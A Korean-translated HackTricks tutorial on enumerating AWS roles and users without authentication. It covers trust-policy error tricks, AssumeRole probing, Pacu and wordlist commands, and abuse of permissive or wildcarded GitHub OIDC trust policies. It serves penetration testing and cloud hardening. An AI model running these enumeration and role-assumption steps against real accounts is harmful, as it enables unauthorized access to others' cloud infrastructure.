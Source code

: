 # AWS - IAM & STS Unauthenticated Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 기술을 공유**하세요.

</details>

## Enumerate Roles & Usernames in an account

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 존재하지 않든 항상 다음 오류가 발생합니다:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

다음을 실행하여 **테스트**할 수 있습니다:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**필요한 권한 없이 역할을 가정**하려고 시도하면 AWS 오류 메시지가 트리거됩니다. 예를 들어, 권한이 없는 경우 AWS는 다음과 같이 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만 해당 가정 역할 정책이 귀하의 추정을 허용하지 않음을 나타냅니다. 반면, **존재하지 않는 역할을 가정하려고 시도하면 다른 오류가 발생**합니다:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미로운 점은 **기존 및 비기존 역할을 구별하는 방법**이 다른 AWS 계정 간에도 적용될 수 있다는 것입니다. 유효한 AWS 계정 ID와 대상 워드리스트를 사용하면 내재적인 제한 없이 계정에 있는 역할을 나열할 수 있습니다.

이 [스크립트를 사용하여 잠재적 주체를 나열](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)하여 이 문제를 악용할 수 있습니다.

### Trust Policies: Brute-Force Cross Account roles and users

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 어떤 AWS 리소스나 서비스가 해당 역할을 가정하고 일시적 자격 증명을 획득할 수 있는지를 정의하는 것**을 포함합니다. 정책에서 지정된 리소스가 **존재하는 경우**, 신뢰 정책이 **성공적으로 저장**됩니다. 그러나 리소스가 **존재하지 않는 경우**, 잘못된 주체가 제공되었다는 **오류가 발생**합니다.

{% hint style="warning" %}
해당 리소스에 교차 계정 역할 또는 사용자를 지정할 수 있습니다:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

다음은 정책 예시입니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

이것은 **존재하지 않는 역할**을 사용할 때 발생하는 **오류**입니다. 역할이 **존재**하는 경우 정책이 **오류 없이 저장**됩니다. (오류는 업데이트 시 발생하지만 생성 시에도 작동함)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
이 프로세스를 [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)를 사용하여 자동화할 수 있습니다.

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[Pacu](https://github.com/RhinoSecurityLabs/pacu)를 사용하는 경우:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 예제에서 사용된 `admin` 역할은 pacu에 의해 **생성해야 하는 정책을 생성하기 위해 가장하려는 귀하의 계정의 역할**입니다.

### Privesc

역할이 잘못 구성되어 누구든지 그 역할을 가정할 수 있게 허용된 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## 제3자 OIDC 연맹

공격자는 그냥 가정할 수 있습니다.

**Github Actions workflow**를 읽을 수 있는 경우를 상상해보십시오. 이 workflow는 **AWS** 내부의 **role**에 액세스하고 있습니다.\
이 신뢰는 다음과 같은 **trust policy**가 있는 역할에 액세스할 수 있게 할 수 있습니다:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수도 있지만 **더 많은 조건의 부재**로 인해 믿음을 가져서는 안 됩니다.\
이전 역할은 **Github Actions에서 누구나**에 의해 가정될 수 있기 때문입니다! org 이름, repo 이름, env, branch와 같은 다른 사항들도 조건으로 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 조건을 **추가하는 것**입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론**(:) 앞의 **와일드카드**(\*)에 주목하세요. **org\_name1**과 같은 조직을 생성하고 Github Action에서 **롤을 가정**할 수 있습니다.

## 참고 자료

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 제로에서 히어로까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **HackTricks에서 회사 광고를 보거나 PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
